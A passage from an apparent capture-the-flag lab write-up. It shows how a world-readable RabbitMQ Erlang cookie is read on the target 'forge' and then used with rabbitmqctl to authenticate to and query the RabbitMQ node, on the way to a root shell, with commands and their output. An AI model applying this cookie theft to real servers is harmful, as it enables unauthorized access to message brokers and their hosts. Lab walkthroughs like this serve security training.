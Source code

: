 ```console
uid=1000(azrael) gid=1000(azrael) groups=1000(azrael)
azrael@forge:~/chatbotServer$ wc -c /home/azrael/user.txt
33 /home/azrael/user.txt
```

## Shell as root

### Obtaining Erlang Cookie

While enumerating the file system, we notice that the `/var/lib/rabbitmq/.erlang.cookie` file, which holds the **Erlang Cookie**, is world-readable. By reading this file, we can obtain the **Erlang Cookie**.

```console
azrael@forge:~$ ls -la /var/lib/rabbitmq/.erlang.cookie
-r-----r-- 1 rabbitmq rabbitmq 16 Feb 23 04:45 /var/lib/rabbitmq/.erlang.cookie
azrael@forge:~$ cat /var/lib/rabbitmq/.erlang.cookie
UdEX5rcSZi5pg0ow
```

### Enumerating RabbitMQ Users

From the earlier port scan, we know that the **RabbitMQ** node is running on the server. We can also confirm this as follows:

```console
azrael@forge:~$ epmd -names
epmd: up and running on port 4369 with data:
name rabbit at port 25672
```

Using the **Erlang Cookie**, we can authenticate and communicate with the **RabbitMQ** node. Since RabbitMQ nodes have the format `rabbit@<hostname>` by default, we add the target's hostname (`forge`) to the `/etc/hosts` file:

```
10.10.74.18 cloudsite.thm storage.cloudsite.thm forge
```
{: file="/etc/hosts" }

Now, we can use the `rabbitmqctl` tool with the discovered cookie to enumerate the **RabbitMQ** instance:

```console
$ sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge status
Status of node rabbit@forge ...
Runtime

OS PID: 1202
OS: Linux
Uptime (seconds): 12736
Is under maintenance?: false
RabbitMQ version: 3.9.13
RabbitMQ release series support status: true
Node name: rabbit@forge
...
```
